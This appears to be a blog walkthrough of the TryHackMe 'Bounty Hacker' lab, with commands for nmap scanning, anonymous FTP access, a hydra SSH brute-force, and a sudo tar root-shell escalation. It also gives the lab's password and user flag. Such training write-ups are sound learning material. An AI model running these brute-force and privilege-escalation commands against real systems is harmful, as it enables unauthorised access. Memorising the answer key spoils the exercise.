 ```yaml
---
description: May 18, 2025 - Xploit0x90
icon: flag
---
```


# Bounty Hacker CTF - 18.May

<figure><img src="../.gitbook/assets/1,286 (1)qweqwe.png" alt=""><figcaption></figcaption></figure>

* Difficulty : <mark style="color:green;">Easy</mark>
* Link : [https://tryhackme.com/room/cowboyhacker](https://tryhackme.com/room/cowboyhacker)
* Creator : [Sevuhl](https://tryhackme.com/p/Sevuhl)

**Bounty Hacker** is a beginner-friendly Linux machine focused on practicing classic techniques like service enumeration, brute-force attacks, SSH exploitation, and privilege escalation via misconfigured binaries. This room helps solidify foundational skills that are applicable in real-world penetration testing scenarios.

***

### 🚀 Deploy the Machine

I joined the [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) room and deployed the target VM. Once the machine was running, I took note of the IP address:

```
10.10.128.176
```

***

### 🔍 Enumeration

I began with a full port scan using `nmap` to identify any open TCP ports on the system:

```bash
nmap -p- 10.10.128.176 --open
```

#### ➤ Explanation:

* `-p-`: Scans all 65535 TCP ports.
* `--open`: Shows only ports that are open.

**Discovered open ports:**

* **21** - FTP
* **22** - SSH
* **80** - HTTP

<div align="left"><figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure></div>

***

I then performed a targeted scan for these ports to get additional details:

```bash
nmap -p 21,22,80 -sC -sV 10.10.128.176
```

#### ➤ Explanation:

* `-sC`: Runs Nmap’s default scripts.
* `-sV`: Attempts to detect service versions.
* `-p`: Scans specific ports.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

***

### 🌐 Web Enumeration (Port 80)

Accessing the website:

```
http://10.10.128.176
```

The website was a basic HTML page containing messages referring to a hacker group. There wasn’t any login functionality or hidden directories visible.

***

### 📁 FTP Access (Port 21)

I tried logging in with anonymous FTP because the Nmap scan showed that the FTP service was open and might allow anonymous access.

```bash
ftp 10.10.128.176
```

Used credentials:

```
Username: anonymous
Password: [press Enter]
```

Login was successful.

#### ➤ Found two files:

* `task.txt`
* `locks.txt`

I downloaded both files using:

```bash
get task.txt
get locks.txt
```

<div align="left"><figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>Note: This is not the complete list of passwords.</p></figcaption></figure></div>

<div align="left"><figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure></div>

⚠️ **Note:** Using `less` inside the FTP shell didn’t display the full contents of the file. That’s why it’s **always better to use `get` to download the file to your local machine**, then open it with tools like `cat`, `nano`, or `less` **locally** to ensure you see everything.

***

### 📄 File Inspection

#### `task.txt`:

This file contained a short to-do list, signed by someone named **lin**.

{% hint style="info" %}
📌 **TryHackMe Question 1 :**\
&#xNAN;**❓ Who wrote the task list?**\
✅ **Answer:** `lin`
{% endhint %}

#### `locks.txt`:

This file contained a long list of possible passwords — possibly for brute-forcing access to some other service.

{% hint style="info" %}
📌 **TryHackMe Question 2 :**\
&#xNAN;**❓ What service can you bruteforce with the text file found?**\
✅ **Answer:** `SSH`
{% endhint %}

***

### 🔓 Brute-force SSH (Port 22)

Using the possible username `lin` (from task.txt), I attempted to brute-force SSH using `hydra` and the password list from `locks.txt`.

```bash
hydra -l lin -P locks.txt ssh://10.10.128.176
```

#### ➤ Explanation:

* `-l lin`: Sets the username to `lin`.
* `-P locks.txt`: Loads password candidates from the list.
* `ssh://`: Targets the SSH protocol.

✅ **Hydra Output:**

```
[22][ssh] host: 10.10.128.176   login: lin   password: RedDr4gonSynd1cat3
```

{% hint style="info" %}
📌 **TryHackMe Question 3 :**\
&#xNAN;**❓ What is the user’s password?**\
✅ **Answer:** `RedDr4gonSynd1cat3`
{% endhint %}

<div align="left"><figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure></div>

***

### 🔑 Gaining Access via SSH

I used the discovered credentials to log in via SSH:

```bash
ssh lin@10.10.128.176
```

After logging in, I listed the contents of the home directory and found a flag file:

```bash
cat user.txt
```

{% hint style="info" %}
📌 **TryHackMe Question 4 :**\
&#xNAN;**❓ user.txt**\
✅ **Answer:** `THM{CR1M3_SyNd1C4T3}`&#x20;
{% endhint %}

<div align="left"><figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure></div>

***

### 🧱 Privilege Escalation

To see what commands I could run as `sudo`, I executed:

```bash
sudo -l
```

The output showed:

```
User lin may run the following commands on this host:
    (root) /bin/tar
```

This means I could run the `tar` command with **root privileges** without a password.

***

### 📦 Exploiting tar with GTFOBins

I visited [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) and found a known method to escalate privileges using `tar`.

I used the following command to spawn a root shell:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

#### ➤ Explanation:

* `--checkpoint`: Defines after how many files the action is triggered.
* `--checkpoint-action`: Executes the given command (in this case, a shell).

I verified the shell:

```bash
whoami
root
```

Navigated to the root user’s directory:

```bash
cd /root
ls
cat root.txt
```

{% hint style="info" %}
📌 **TryHackMe Question 5 :**\
&#xNAN;**❓ root.txt**\
✅ **Answer:** `XXXXXXXXXXXXXXXX`&#x20;
{% endhint %}

<div align="left"><figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure></div>

***

### 💡 Lessons Learned

* FTP servers with anonymous access can expose sensitive files.
* Always check file contents — even simple text files can provide usernames or passwords.
* Hydra is a powerful tool for brute-forcing services when you have good input lists.
* Always check `sudo -l` to find potential privilege escalation vectors.
* [GTFOBins](https://gtfobins.github.io/) is a goldmine for exploiting misconfigured binaries that have sudo privileges.
